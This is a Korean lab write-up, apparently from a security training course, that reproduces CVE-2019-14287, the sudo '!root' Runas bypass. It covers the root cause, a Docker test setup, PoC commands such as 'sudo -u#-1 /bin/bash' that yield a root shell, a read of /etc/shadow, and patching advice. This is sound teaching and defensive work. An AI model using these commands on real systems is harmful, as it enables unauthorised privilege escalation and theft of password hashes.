







# CVE-2019-14287 : sudo Runas 사용자 지정 정책 우회를 통한 권한 상승

**Contributors**

- 화이트햇스쿨 4기 22반 [이시영(@ltldud)](https://github.com/ltldud)

<br/>

## 취약점 요약

`sudo`는 시스템 관리자가 `/etc/sudoers`에 정의된 정책에 따라 일반 사용자에게 제한된 권한 위임을 허용하는 유틸리티다.
`sudoers` 설정 중에는 특정 사용자가 root를 제외한 임의의 사용자로만 명령을 실행할 수 있도록 `Runas_Spec`에 `!root`를 명시해 제한하는 패턴이 널리 사용된다.

```
testuser ALL=(ALL, !root) NOPASSWD: ALL
```

그러나 sudo 1.8.28 미만 버전에는 `-u` 옵션으로 대상 사용자를 UID 형태(`#UID`)로 지정할 때 `-1` 또는 이를 부호 없는 32비트 정수로 표현한 `4294967295`를 지정하면 `!root` 제한을 우회하여 실제로는 UID 0 권한으로 명령이 실행되는 취약점이 존재한다.
sudo의 정책 검사 로직이 해당 UID를 유효한 사용자로 해석하지 못해 블랙리스트 검사를 통과시키지만 실제 프로세스 권한 설정 단계에서는 root 권한이 그대로 부여되기 때문이다.

이러한 우회가 가능한 이유는  `sudo` 자체가 `setuid-root` 바이너리로 실행되어 시작 시점부터 이미 euid=0 상태이기 때문이다. </br>
정책 검사 단계에서 `-1`은 `/etc/passwd`에 존재하는 계정으로 매핑되지 않으므로 `!root` 블랙리스트와의 이름/UID 비교 자체가 성립하지 않아 그대로 통과된다. </br>
이후 실제 권한 전환은 `setresuid()/setreuid()` 시스템 콜로 이루어지는데, 이 함수들은 인자로 -1이 들어오면 '해당 ID를 변경하지 않는다'고 특수 처리한다.
즉, sudo가 root 권한을 새로 부여하는 것이 아니라 이미 갖고 있던 root 권한(euid=0)을 지정된 UID로 낮추지 못해 그대로 남아있게 되는 것이다.

이를 통해 공격자는 'root로는 실행할 수 없다'는 관리자의 명시적인 정책 의도를 무력화하고 완전한 root 권한을 획득할 수 있다.

- CVE: [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- 영향 버전: sudo < 1.8.28
- 패치 버전: sudo 1.8.28

참고 자료:

- <https://www.sudo.ws/security/advisories/minus_1_uid/>
- <https://nvd.nist.gov/vuln/detail/CVE-2019-14287>
- <https://openwall.com/lists/oss-security/2019/10/14/1>

<br/>

## 환경 구성

- Base image: `ubuntu:18.04`
- Ubuntu 18.04에서 기본 apt 저장소의 sudo 패키지(1.8.21p2-3ubuntu1.x)는 CVE-2019-14287 패치가 이미 백포트되어 있어 재현되지 않는다. 따라서 `Dockerfile`에서 sudo 공식 배포처의 취약 버전인 sudo 1.8.27 소스코드를 직접 빌드하여 설치한다.
- 컨테이너 내부에 일반 계정 `testuser` (비밀번호 : `testuser`) 를 생성하고, `/etc/sudoers.d/testuser`에 아래와 같은 정책을 적용한다.

  ```
  testuser ALL=(ALL, !root) NOPASSWD: ALL
  ```

다음 명령어로 환경을 실행한다.

```bash
docker compose up -d
```

컨테이너가 정상적으로 실행 중인지 확인한다.

```bash
docker compose ps
```



<br/>

## 취약 조건

1. sudo 버전이 1.8.28 미만
2. sudoers 정책에 `Runas_Spec`이 `ALL` 또는 다수의 사용자를 허용하면서 `!root`로 root만 명시적으로 제외
3. 공격자가 해당 정책이 적용된 계정의 셸에 접근 가능할 것

<br/>

## 재현 절차

### 1. 컨테이너 접속

기본 사용자인 `testuser`로 설정되어 있으니 docker compose exec로 접속한다. 

```bash
docker compose exec sudo bash
```

### 2. 현재 sudo 정책 확인

```bash
id
sudo -l
```

`testuser`가 `(ALL, !root) NOPASSWD: ALL` 정책을 보유하고 있음을 확인한다.



### 3. 정상 정책 동작 확인 (root로 직접 실행 시도 → 거부)

root로 직접 실행을 시도했을 때 거부

```bash
sudo -u root id
```

관리자의 의도대로 다음과 같이 명시적으로 거부된다.

```bash
Sorry, user testuser is not allowed to execute '/usr/bin/id' as root on ...
```



### 4. 취약점을 이용한 우회 (PoC)

```bash
sudo -u#-1 id
```

또는 -1을 부호 없는 32비트 정수로 표현한 4294967295를 uid값으로 넘겨준다.

```bash
sudo -u#4294967295 id
```

<br/>

## PoC 코드

핵심 PoC는 단일 명령 인자 조작으로 별도의 프로그램이 필요 없이 재현이 가능하다.

```bash
sudo -u#-1 /bin/bash
```

저장소에는 위 과정을 자동으로 시연하는 `exploit.sh`가 포함되어 있다. (정상 정책 확인 → 거부 확인 → `-u#-1` 우회 + `-u#4294967295` 우회 → root 인터랙티브 셸 진입)

```bash
docker compose exec sudo ./exploit.sh
```

<br/>

## 실행 결과

```bash
sudo -u#-1 id
uid=0(root) gid=1000(testuser) groups=1000(testuser)
```


`!root`를 사용해 명시적으로 차단했던 root 권한이 `uid=0(root)` 그대로 획득되는 것을 확인할 수 있다. 이어서 `/bin/bash`로 실행하면 인터랙티브 root 셸까지 획득 가능하다.

```bash
sudo -u#-1 /bin/bash
whoami
```



### root 권한으로만 접근 가능한 파일 확인

일반 사용자(=`testuser`) 권한으로는 `/etc/shadow`를 확인할 수 없다.

```bash
cat /etc/shadow
cat: /etc/shadow: Permission denied
```



하지만 `-u#-1` 우회로 획득한 root 셸에서는 동일한 파일을 확인할 수 있다.

```bash
cat /etc/shadow
root:*:19507:0:99999:7:::
daemon:*:19507:0:99999:7:::
...
```



<br/>

## 대응 방안

- sudo를 1.8.28 이상 버전으로 업데이트한다.
    - sudo 1.8.28 이상에서는 `-1` or `4294967295`와 같이 존재하지 않는 UID를 지정하면 정책 검사 단계에서 명시적으로 거부하도록 수정
- 배포판이 자체적으로 CVE-2019-14287 패치를 백포트했는지 `sudo -V` 및 배포판 보안 공지로 확인한다.
- `sudoers` 정책 설계 시 `!root`와 같은 블랙리스트 방식의 Runas 제한에 의존하지 않는다. 가능하면 허용할 사용자를 명시적으로 나열하는 화이트리스트 방식을 사용한다.
- 최소 권한 원칙에 따라 sudo로 위임하는 명령의 범위를 최소화하고, `ALL` 대신 필요한 명령만 명시적으로 허용한다.
